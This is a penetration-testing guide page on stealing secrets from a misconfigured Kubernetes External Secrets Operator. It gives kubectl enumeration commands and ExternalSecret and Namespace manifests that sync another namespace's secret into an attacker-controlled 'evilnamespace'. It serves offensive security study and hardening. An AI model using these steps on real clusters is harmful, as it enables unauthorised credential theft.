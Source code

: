 # External Secret Operator

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

This page gives some pointers onto how you can achieve to steal secrets from a misconfigured ESO or application which uses ESO to sync its secrets.

## Disclaimer

The technique showed below can only work when certain circumstances are met. For instance, it depends on the requirements needed to allow a secret to be synched on a namespace that you own / compromised. You need to figure it out by yourself.

## Prerequisites

1. A foothold in a kubernetes / openshift cluster with admin privileges on a namespace
2. Read access on at least ExternalSecret at cluster level
3. Figure out if there are any required labels / annotations or group membership needed which allows ESO to sync your secret. If you're lucky, you can freely steal any defined secret.

### Gathering information about existing ClusterSecretStore

Assuming that you have a users which has enough rights to read this resource; start by first listing existing _**ClusterSecretStores**_.

```sh
kubectl get ClusterSecretStore
```

### ExternalSecret enumeration

Let's assume you found a ClusterSecretStore named _**mystore**_. Continue by enumerating its associated externalsecret.

```sh
kubectl get externalsecret -A | grep mystore
```

_This resource is namespace scoped so unless you already know which namespace to look for, add the -A option to look across all namespaces._

You should get a list of defined externalsecret. Let's assume you found an externalsecret object called _**mysecret**_ defined and used by namespace _**mynamespace**_. Gather a bit more information about what kind of secret it holds.

```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```

### Assembling the pieces

From here you can get the name of one or multiple secret names (such as defined in the Secret resource). You will an output similar to:

```yaml
kind: ExternalSecret
metadata:
  annotations:
  ...
  labels:
  ...
spec:
  data:
  - remoteRef:
      conversionStrategy: Default
      decodingStrategy: None
      key: SECRET_KEY
    secretKey: SOME_PASSWORD
    ...
```

So far we got:

- Name a ClusterSecretStore
- Name of an ExternalSecret
- Name of the secret

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):

```yaml
kind: ExternalSecret
metadata:
  name: myexternalsecret
  namespace: evilnamespace
spec:
  data:
    - remoteRef:
        conversionStrategy: Default
        decodingStrategy: None
        key: SECRET_KEY
      secretKey: SOME_PASSWORD
  refreshInterval: 30s
  secretStoreRef:
    kind: ClusterSecretStore
    name: mystore
  target:
    creationPolicy: Owner
    deletionPolicy: Retain
    name: leaked_secret
```

```yaml
kind: Namespace
metadata:
  annotations:
    required_annotation: value
    other_required_annotation: other_value
  labels:
    required_label: somevalue
    other_required_label: someothervalue
  name: evilnamespace
```

After a few mins, if sync conditions were met, you should be able to view the leaked secret inside your namespace

```sh
kubectl get secret leaked_secret -o yaml
```

## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}




